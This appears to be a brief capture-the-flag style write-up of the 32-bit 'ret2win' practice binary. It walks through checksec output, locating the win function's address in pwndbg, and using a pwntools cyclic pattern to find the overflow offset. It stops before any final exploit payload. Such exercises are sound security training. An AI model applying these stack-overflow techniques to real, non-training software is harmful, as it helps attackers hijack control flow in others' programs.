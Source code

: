 # ret2win
## 32 bit
File check
```bash
file ret2win32
```
32bit ELF LSB

Check with checksec
```bash
checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72) Symbols	  No	0		3		ret2win32
```
No canary, partial relro, no pie and nx enabled.

Run file in gdb-pwndbg and list functions.
```bash
gdb-pwndbg ret2win
pwndbg> info functions
```
memory location of `ret2win` : `0x0804862c`
Find buffer size.
```bash
python3
>>> from pwn import *
>>> g = cyclic_gen()
>>> g.get(100)
```
Put the payload into the program run in pwndbg and get the value of the EIP (cause 32bit)
```
laaa
```
